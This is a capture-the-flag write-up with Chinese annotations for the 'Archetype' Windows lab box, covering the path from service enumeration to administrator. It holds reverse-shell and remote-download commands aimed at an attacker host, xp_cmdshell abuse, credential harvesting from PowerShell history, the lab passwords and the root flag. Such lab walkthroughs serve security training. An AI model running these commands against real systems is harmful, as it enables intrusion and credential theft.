

<center>Archetype</center>


[toc]


## Archetype

> Archetype


### 1. task

1. Which TCP port is hosting a database server?

```shell
1433/tcp
```

2. What is the name of the non-Administrative share available over SMB?

```shell
backups
```

3. What is the password identified in the file on the SMB share?

```shell
M3g4c0rp123
```

4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

```shell
mssqlclient.py
```

5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

```shell
xp_cmdshell
```

6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?

```shell
winpeas
```

7. What file contains the administrator's password?

```shell
ConsoleHost_History.txt
```


### 3. flag

> 获取flag

```shell
export ip=10.129.18.192

nmap -sV -sC $ip

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2024-12-03T02:10:49+00:00; +1s from scanner time.
| ms-sql-info: 
|   10.129.18.192:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.18.192:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-03T02:03:39
|_Not valid after:  2054-12-03T02:03:39
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

> 枚举smb共享

```shell
smbclient -N -L \\\\$ip\\

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
```

> **查看backups，并发现 prod.dtsConfig 文件，在 prod.dtsConfig 中发现了`Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`**


> **使用impacket工具包的mssqlclient.py脚本连接到mssql服务器**

> **Microsoft SQL Server 2017正在端口1433上运行，并且在配置文件中发现了用户名和密码，尝试进行连接，使用impacket工具包。
>
>   \**工具包地址：[`https://github.com/fortra/impacket`](https://github.com/fortra/impacket)\****

```shell
impacket-mssqlclient ARCHETYPE/sql_svc@$ip -windows-auth
```



> 查看`xp_cmdshell`是否可用

```shell
# 查看当前用户角色
SELECT is_srvrolemember('sysadmin');

# 查看 xp_cmdshell是否可用
EXEC xp_cmdshell 'net user';

# 发现xp_cmdshell未激活
```

> 尝试激活xp_cmdshell

```shell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

> 激活了 xp_cmdshell，使用xp_cmdshell 执行命令，whoami执行成功，如果可以执行命令的话我们就可以执行反向shell
>
> `whoami查询成功`，尝试进行反向shell

```shell
xp_cmdshell "whoami"
```

> 反弹shell
>
> 下载`nc64.exe`
>
> [nc](https://eternallybored.org/misc/netcat/)

```shell
# 本地开启web服务，上传nc
python3 -m http.server 8000

# 将 nc64.exe 上传至 C:\Users\sql_svc\Downloads 目录，从http web服务器输出可以看出，nc64.exe 上传成功。
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.32:8000/nc64.exe -outfile nc64.exe"
```


> **开启监听通过nc将cmd.exe绑定到监听器，执行命令，获取到shell**

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc64.exe -e cmd.exe 10.10.16.32 4444"

nc -lnvp 4444
```


> 提权：
>
> PEASS: PEASS - 权限提升超棒脚本套件。**适用于 Windows、Linux/Unix\* 和 MacOS 的权限提升工具**。
>
> [github](https://github.com/peass-ng/PEASS-ng)
>
> windows: 工具： [github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
>
> 下载： [win64](https://github.com/peass-ng/PEASS-ng/releases/download/20241201-e3889b61/winPEASx64.exe)

```shell
# 开启http服务
python3 -m http.server 8000

# 下载提权工具到靶机
wget http://10.10.16.32:8000/winPEASx64.exe -outfile winPEASx64.exe
```

> **执行 .\winPEASx64.exe 运行工具，发现存储PowerShell历史记录的文件夹及其他敏感信息**

```shell
 .\winPEASx64.exe
```


> **在存储PowerShell历史记录的文件夹，发现了`user:administrator MEGACORP_4dm1n!!`**

```shell
cd AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\

type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

> 获取root flag

```shell
impacket-psexec administrator@10.129.18.192

cd C:\Users\administrator\Desktop

dir

type root.txt
b91ccec3305e98240082d4474b848528
```

